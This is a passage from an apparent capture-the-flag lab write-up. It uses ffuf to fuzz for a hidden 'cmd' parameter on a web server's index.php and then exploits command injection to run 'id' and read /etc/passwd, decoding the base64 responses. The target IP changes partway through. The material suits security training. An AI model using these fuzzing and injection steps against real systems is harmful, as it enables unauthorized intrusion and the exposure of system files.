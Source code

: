 ### Parameter Fuzzing for RCE

```
ffuf -u http://10.10.158.105/assets/index.php?FUZZ -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

Found nothing, so i tried passing a value to the parameter.

```
ffuf -u http://10.10.158.105/assets/index.php?FUZZ=id -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

Found working parameter: `cmd`

Now by visiting the link i got:

```
http://10.10.158.105/assets/index.php?cmd=id
=> dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

The string is Base64 encoded so i used Cyberchef to decode it from Base64
=> uid=33(www-data) gid=33(www-data) groups=33(www-data)

We see we are executing commands as www-data, we just found Command Injection or RCE (Remote Command Execution) at:

http://10.10.158.105/assets/index.php?cmd=id

And the response confirms we are executing commands as www-data, which is the typical web server user. We are now inside the machine (though through a limited command injection)we just executed the command id

Confirmed **command injection** vulnerability.

so i tried another commmand:
```
10.10.11.182/assets/index.php?cmd=cat%20/etc/passwd~
```
it gave an encoded response, once again we can use CyberChef to decipher it.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
```